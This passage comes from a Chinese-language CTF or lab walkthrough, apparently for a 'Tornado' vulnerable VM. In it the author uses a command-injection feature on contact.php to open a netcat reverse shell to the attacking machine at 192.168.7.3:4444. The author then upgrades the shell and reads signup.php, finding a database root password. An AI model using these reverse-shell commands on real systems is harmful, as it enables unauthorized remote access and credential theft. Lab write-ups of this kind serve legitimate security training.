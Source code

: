 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

注册成功，现在使用jacob@tornado用户以及注册用户时的密码登录

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登陆成功并在contact.phpd页面下看到一个新功能 ，输入id命令返回了id，但是没有返回结果可能不回显

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

试试反弹个shell行不行

反弹shell
-------

kali攻击机监听端口4444

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

靶机上提交反弹payload

```
nc -e /bin/bash 192.168.7.3 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，切换交互型shell找一下敏感信息吧

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`ls``cat signup.php`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

数据库用户root密码heheroot,切换root用户试试
